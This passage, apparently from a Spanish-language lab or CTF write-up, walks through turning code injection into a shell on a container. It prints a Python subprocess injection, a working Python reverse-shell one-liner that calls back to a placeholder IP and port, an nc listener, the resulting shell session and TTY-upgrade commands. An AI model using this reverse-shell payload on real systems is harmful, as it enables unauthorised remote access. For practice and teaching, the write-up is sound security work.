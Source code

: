 ```python
print(__import__('subprocess').check_output('whoami',shell=True).decode())
```

Info:

```
app
```

Veremos que esto se esta ejecutando mediante el usuario `app` pero cada vez que tengamos que ejecutar un comando tendremos que capturarlo con `BurpSuite` y cambiarle el `Host` por que si no, no va a funcionar.

Vamos a crearnos una `reverse shell` con el siguiente `payload`:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

Antes de enviarlo nos pondremos a la escucha con `nc` de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Ahora cuando enviemos dicho `payload` y lo capturemos con `BurpSuite` cambiemos el `Host` al adecuado y le demos al boton de dejar de interceptar y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 5555 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 58216
app@de41e2e0eb7b:/$ whoami
whoami
app
```

Vemos que hemos obtenido una `shell` con el usuario `app`, vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
